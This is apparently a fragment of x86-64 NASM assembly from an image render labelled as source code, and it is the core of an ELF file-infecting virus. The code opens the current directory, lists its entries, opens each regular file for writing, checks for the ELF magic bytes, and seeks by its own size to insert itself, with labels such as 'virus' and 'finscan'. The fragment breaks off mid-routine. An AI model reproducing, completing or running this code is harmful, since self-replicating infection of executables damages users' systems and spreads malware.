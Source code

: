 ```nasm
    mov rdi, r9
    mov rsi, host
    mov rdx, max_size
    syscall

    push rax

    mov rax, 0x3
    mov rdi, r9
    syscall

    mov rax, 0x2
    mov rdi, cwdd
    xor rsi, rsi
    xor rdx, rdx
    syscall

    test rax, rax
    js virus

    push rax

    mov rdi, rax
    mov rax, 0xd9
    lea rsi, [rsp + 200 + DIRENT]
    mov rdx, 800
    syscall

    test rax, rax
    js finscan

    mov r10, rax
    xor r9, r9

scan:
    cmp [rsp + r9 + 200 + DIRENT.d_type], 0x8
    jne .continue

    mov rax, 0x2
    lea rdi, [rsp + r9 + 200 + DIRENT.d_name]
    mov rsi, 0x2
    xor rdx, rdx
    syscall

    test rax, rax
    js .continue

    push rax

    mov rax, 0x0
    mov rdi, [rsp]
    lea rsi, [rsp + 1100]
    mov rdx, 4
    syscall

    mov rdi, elfmagic
    mov rcx, 4
    rep cmpsb
    jne .close

    mov rax, 0x8
    mov rdi, [rsp]
    mov rsi, self_size
```